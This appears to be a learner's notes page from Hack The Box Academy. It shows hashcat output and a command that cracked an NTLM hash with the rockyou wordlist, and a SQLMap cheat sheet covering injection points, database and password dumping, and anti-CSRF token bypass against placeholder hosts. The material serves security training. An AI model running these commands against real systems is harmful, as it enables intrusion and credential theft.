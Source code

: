 ```
Speed.#1.........:   869.6 kH/s (1.56ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 8192/14344385 (0.06%)
Rejected.........: 0/8192 (0.00%)
Restore.Point....: 4096/14344385 (0.03%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: ******************** -> ******************

Started: Tue Aug  9 13:04:15 2022
Stopped: Tue Aug  9 13:05:09 2022
```

```
echo '7106812752615cdfe427e01b98cd4083' > hash.txt
hashcat -a 0 -m 1000 -g 1000 hash.txt /usr/share/wordlists/rockyou.txt
```

[https://academy.hackthebox.com/achievement/536389/20]

## Module: SQLMap Essentials

- Easy

## Cheat Sheet

| **Command**                                                                                                               | **Description**                                             |
| ------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------- |
| `sqlmap -h`                                                                                                               | View the basic help menu                                    |
| `sqlmap -hh`                                                                                                              | View the advanced help menu                                 |
| `sqlmap -u "http://www.example.com/vuln.php?id=1" --batch`                                                                | Run `SQLMap` without asking for user input                  |
| `sqlmap 'http://www.example.com/' --data 'uid=1&name=test'`                                                               | `SQLMap` with POST request                                  |
| `sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'`                                                              | POST request specifying an injection point with an asterisk |
| `sqlmap -r req.txt`                                                                                                       | Passing an HTTP request file to `SQLMap`                    |
| `sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'`                                                        | Specifying a cookie header                                  |
| `sqlmap -u www.target.com --data='id=1' --method PUT`                                                                     | Specifying a PUT request                                    |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt`                                             | Store traffic to an output file                             |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch`                                                            | Specify verbosity level                                     |
| `sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"`                                                     | Specifying a prefix or suffix                               |
| `sqlmap -u www.example.com/?id=1 -v 3 --level=5`                                                                          | Specifying the level and risk                               |
| `sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba`                                  | Basic DB enumeration                                        |
| `sqlmap -u "http://www.example.com/?id=1" --tables -D testdb`                                                             | Table enumeration                                           |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname`                                      | Table/row enumeration                                       |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"`                             | Conditional enumeration                                     |
| `sqlmap -u "http://www.example.com/?id=1" --schema`                                                                       | Database schema enumeration                                 |
| `sqlmap -u "http://www.example.com/?id=1" --search -T user`                                                               | Searching for data                                          |
| `sqlmap -u "http://www.example.com/?id=1" --passwords --batch`                                                            | Password enumeration and cracking                           |
| `sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"` | Anti-CSRF token bypass                                      |
| `sqlmap --list-tampers`                                                                                                   | List all tamper scripts                                     |